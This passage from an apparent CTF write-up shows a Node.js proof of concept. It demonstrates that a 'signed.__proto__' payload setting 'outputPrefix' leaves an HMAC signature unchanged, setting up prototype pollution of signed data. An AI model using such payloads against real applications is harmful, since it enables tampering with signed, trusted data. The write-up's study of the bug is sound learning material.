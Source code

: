 ```js
```

From the above code, we can conclude it's possible to use `prototype pollution` and change the value of `outputPrefix`. But we have another item to confirm, would the following code from `getSignature()` will be an issue for us by adding a new `key` and `value`?

```js
createHmac = require('crypto').createHmac;
randomBytes = require('crypto').randomBytes;
const SECRET_KEY = randomBytes(64);
const SIGNED_PREFIX = "signed.";
const getSignedData = (data) => {
  const signedParams = {};
  for (const param in data) {
    if (param.startsWith(SIGNED_PREFIX)) {
      const keyName = param.slice(SIGNED_PREFIX.length);
      signedParams[keyName] = data[param];
    }
  }
  return signedParams;
};

// Original
const body = {
    "data":{"signed.name":"jeff","signed.animalType":"emu","signed.age":12,"signed.crime":"assault","signed.description":"clotheslined someone with their neck","signed.start":"2024-03-02T10:45:01Z","signed.release":"2054-03-02T10:45:01Z"}
};
const signedData = getSignedData(body.data)
const toSignArray = Object.entries(signedData).map(([k, v]) => `${k}=${v}`);
toSignArray.sort();
console.log(createHmac('sha256', SECRET_KEY).update(toSignArray.join("&")).digest("hex"));

// With Protoype Pollution "outputPrefix"
const body2 = {
    "data":{"signed.name":"jeff","signed.animalType":"emu","signed.age":12,"signed.crime":"assault","signed.description":"clotheslined someone with their neck","signed.start":"2024-03-02T10:45:01Z","signed.release":"2054-03-02T10:45:01Z","signed.__proto__":{"outputPrefix":"hijack"}},"signature":"718494ab34fb37e1adeea4b4c87de8feb9aa504310d8c67af693928d6377af13"
};
const signedData2 = getSignedData(body2.data);
const toSignArray2 = Object.entries(signedData2).map(([k, v]) => `${k}=${v}`);
toSignArray2.sort();
console.log(createHmac('sha256', SECRET_KEY).update(toSignArray2.join("&")).digest("hex"));

//└─$ node poc.js
//342708064e49c23df698fae8b1189c620f87bab1beadcc441edbc289f47f46d3
//342708064e49c23df698fae8b1189c620f87bab1beadcc441edbc289f47f46d3
```

It seems like `Object.entries()` wont affect our signature with `__proto__` added. I got no idea but asking **ChatGPT** actually give me new information (Unsure about the fact).

